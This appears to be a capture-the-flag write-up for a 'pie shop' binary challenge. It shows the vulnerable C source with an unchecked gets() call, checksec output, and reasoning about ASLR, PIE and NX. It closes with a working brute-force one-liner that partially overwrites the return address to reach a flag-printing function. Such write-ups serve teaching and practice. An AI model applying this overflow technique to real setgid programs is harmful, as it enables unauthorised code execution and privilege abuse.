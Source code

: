## exploit
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
	printf("What type of pie do you want? ");

	char pie[50];
	gets(pie);

	if (strcmp(pie, "apple") == 0) {
		printf("Here's your pie!\n");
		printf("      _,..---..,_\n");
		printf("  ,-\"`    .'.    `\"-,\n");
		printf(" ((      '.'.'      ))\n");
		printf("  `'-.,_   '   _,.-'`\n");
		printf("    `\\  `\"\"\"\"\"`  /`\n");
		printf("      `\"\"-----\"\"`\n");
	} else {
		printf("Whoops, looks like we're out of that one.\n");
	}
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("Welcome to the pie shop! Here we have all types of pies: apple pies, peach pies, blueberry pies, position independent executables, pumpkin pies, rhubarb pies...\n");
	get_pie();

	return 0;
}
```
file:

```
pie_shop: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped
```

checksec:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The vulnerability was in `get_pie` function, in fact there was a `gets` that allowed to overwrite RA without any kind of checks or canary.

Ok but where to jump?

Answer this question was not easy, in fact we had:

* ASLR enabled
* PIE code 
* NX stack
* no leak avaiable

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

This combination was terrible especially with PIE code:

this kind of protection makes unpredicatble where code segment were loaded changing every time we execute binary. Of course the offsets, in the code section, remained the same. For istance we knew that the offset of `flag` function ends with `1a9`, the `gets_pie` with `1bc` etc.

I explored two alternativies:

*  ### ret2vsyscall

![vmmap](https://i.ibb.co/vstZRxr/gdb-vmmap.png)
    as we can see in gdb we had vsyscall, this section load some functions at the same location without ASLR in order to speed up some system call. This could be useful in order to build some ROP chain but:

1. any attempts to jump into an arbitrary instruction inside this section cause a segfault.
    
![segfault](https://i.ibb.co/svmfLdb/gdb-crash-vsys.png|width=10)


2. the syscall inside this pages are:
	* __NR_gettimeofday
	* __NR_time
	* __NR_getcpu
        
	here maybe the interesting gadget could be RET but we are already able to jump at any location



*  ### partial overwrite

    The idea was to write the least significant 2 bytes of RA - in fact the offsets of instructions in code segment remained the same. Moreover I had another problem, to reach RA I needed to write `72` bytes plus `2` bytes to overwrite RA's least significant bytes, unfortunetley the len of malicious input was not multiple of 8, so a `NULL` byte was automatically appended.
    
    However:
    The goal is jump into `flag` procedure. Without overflow anything, the stack frame in `gets_pie` procedure contained RA to main procedure. So `5` of these bytes - the most significant ones - were the same as `flag` procedure, the problem was the less significant 3 bytes.
    
    Of these 3 bytes the least significant one was always `a9`, so remained 16 bit to guess and 8 of these (that i wasn't able to control) were: `0x00`. 
    
    The goal at this point was to find at least one execution that had `flag` procedure loaded into an address that ends with: `....0011a9`


```bash
for i in `seq 1 10000`; do python -c 'print "a"*72+"\xa9\x11"' | ./pie_shop 2> /dev/null | grep -i actf; done
```



##### flag: actf{a_different_kind_of_pie}



